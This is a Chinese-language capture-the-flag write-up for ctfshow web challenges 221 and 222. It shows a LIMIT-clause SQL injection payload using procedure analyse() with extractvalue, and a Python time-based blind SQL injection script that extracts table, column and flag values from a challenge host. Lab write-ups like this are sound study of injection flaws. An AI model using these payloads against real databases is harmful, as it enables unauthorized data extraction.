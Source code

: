 ```python
        if valid_payload(load):
            result += letter
            break
    print(f"[*] result: {result}")
    index += 1
```

## web 221  limit注入

::: tip 参考
[[CTFSHOW]SQL注入(WEB入门)](https://blog.csdn.net/solitudi/article/details/110144623)
:::

limit联合注入版本限制(5.0.0-5.6.6)

在`select *from tableName limit 1,1 (order by) $_POST['sql'];`sql语句这里，如果有`order by`，就不能联合注入，如果没有`order by`就可以注入

考点：limit注入，procedure analyse()函数优化表结构

在查询接口`/api/`传参

payload：`?page=1&limit=1%20procedure%20analyse(extractvalue(rand(),concat(0x3a,database())),1)`

解释：procedure analyse(extractvalue(rand(),concat(0x3a,database())),1): procedure analyse用于分析结果，`extractvalue()` 需要的是 XML 相关的数据，而传入的却是一个随机数 `rand()`，可以爆出需要分析的数据库名称

## web 222 group by

分析大佬的脚本，二分法查询相关数据，利用sleep盲注，通过substr比较爆出数据，把if的结果sleep(0.05),1放在了group后面，重点应该在在时间盲注


```python
import requests
import time

url='http://92ed72b8-5087-4bf6-9e3e-c3797af901ec.challenge.ctf.show/api/'
result=''
i=0
while True:
    i+=1
    head=1
    tail=127
    while head<tail:
        mid=(head+tail)>>1
        # ctfshow_flaga,ctfshow_user
        # payload = f"if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{i},1))>{mid},sleep(0.05),1)"
        # id,flagaabc,info 
        # payload = f"if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flaga'),{i},1))>{mid},sleep(0.05),1)"
        payload = f"if(ascii(substr((select flagaabc from ctfshow_flaga),{i},1))>{mid},sleep(0.05),1)"

        data={
            "u":payload
        }
        t1=time.time()
        r=requests.get(url,params=data)
        t2=time.time()
        # print(t2-t1)#调试
        print("[*]程序正在进行.....")
        if t2-t1>0.9:#这边不稳定，要调试
            head=mid+1
        else:
            tail=mid
```